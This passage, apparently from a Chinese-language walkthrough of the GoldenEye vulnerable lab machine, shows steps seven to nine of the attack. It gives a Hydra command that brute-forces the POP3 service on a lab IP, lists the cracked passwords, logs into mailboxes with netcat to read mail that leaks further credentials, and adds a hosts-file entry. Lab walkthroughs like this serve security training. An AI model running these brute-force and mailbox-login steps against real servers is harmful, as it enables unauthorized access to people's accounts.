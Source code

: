 7、接下来尝试使用暴力破解，在上一步中找到的用户名“boris”，通过Hydra暴力破解pop3服务：

echo -e 'natalya\nboris' > dayu.txt   ---将两个用户名写入txt文本中
hydra -L dayu.txt -P /usr/share/wordlists/fasttrack.txt 192.168.4.202 -s 55007 pop3

经过2~5分钟等待，获得两组账号密码：
[55007][pop3] host: 192.168.4.202   login: natalya   password: bird
[55007][pop3] host: 192.168.4.202   login: boris   password: secret1!
用户：boris 密码：secret1!
用户：natalya 密码：bird

8、通过NC登录pop3查看邮件信封内容枚举：
nc 192.168.4.202 55007     ---登录邮箱
user boris                 ---登录用户
pass secret1!              ---登录密码
list                       ---查看邮件数量
retr 1~3                   ---查看邮件内容

第二封来自用户“natalya”，称她可以破坏鲍里斯的密码。
第三封邮件可以看出有一份文件用了GoldenEye的访问代码作为附件进行发送，并保留在根目录中。但我们无法从此处阅读附件。

natalya用户登录邮件查看信息：
nc 192.168.4.202 55007     ---登录邮箱
user natalya               ---登录用户
pass bird                  ---登录密码
list                       ---查看邮件数量
retr 1~3                   ---查看邮件内容
----------------------------------------------------------------------------------------
两封邮件：第一封邮件：
娜塔莉亚，请你停止破解鲍里斯的密码。 此外，您是 GNO 培训主管。 一旦学生被指定给你，我就会给你发电子邮件。
此外，请注意可能的网络漏洞。 我们获悉，一个名为 Janus 的犯罪集团正在追捕 GoldenEye。

第二封邮件：
好的 Natalyn 我有一个新学生给你。 由于这是一个新系统，如果您看到任何配置问题，请告诉我或鲍里斯，尤其是它与安全有关的问题……即使不是，也只需以“安全”为幌子输入……它就会 轻松升级变更单:)
好的，用户信用是：
用户名：xenia
密码：RCP90rulez！
鲍里斯验证了她是一个有效的承包商，所以只需创建帐户好吗？
如果您没有外部内部域的 URL：severnaya-station.com/gnocertdir
**请务必编辑您的主机文件，因为您通常在远程离线工作....
由于您是 Linux 用户，因此只需将此服务器 IP 指向 /etc/hosts 中的 severnaya-station.com。
----------------------------------------------------------------------------------------
在第二封邮件看到了另外一个用户名密码，此服务器域名和网站，还要求我们在本地服务hosts中添加域名信息：
用户名：xenia
密码：RCP90rulez!
域：severnaya-station.com
网址：severnaya-station.com/gnocertdir
我们现根据邮件提示添加本地域名：severnaya-station.com

9、设置本地HOSTS文件
gedit /etc/hosts
192.168.4.202 severnaya-station.com
